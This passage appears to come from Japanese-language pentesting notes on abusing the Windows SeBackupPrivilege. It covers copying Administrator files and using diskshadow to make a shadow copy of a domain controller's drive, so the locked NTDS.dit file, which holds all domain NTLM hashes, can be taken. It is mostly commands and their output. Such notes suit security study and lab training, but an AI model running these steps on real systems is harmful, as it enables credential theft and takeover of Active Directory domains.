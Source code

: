 ```
ls C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\report.pdf c:\temp\x.pdf -Overwrite
```

## AD攻撃

ドメインコントローラのファイルシステムへの直接アクセスにより、すべてのドメインユーザーおよびコンピューターのNTLMハッシュを含む`NTDS.dit`データベースを盗むことができる。

### 必要なライブラリのインポート

```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

### diskshadow.exeの使用

`NTDS.dit` ファイルはデフォルトでロックされているため、Windows の [discshadow](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) ユーティリティを使用して C ドライブのシャドウ コピーを作成し、それを E ドライブとして公開できる。このシャドウ コピー内の `NTDS.dit` はシステムによって使用されない。

```powershell-session
PS C:\hatto> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\hatto> dir E:


    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```
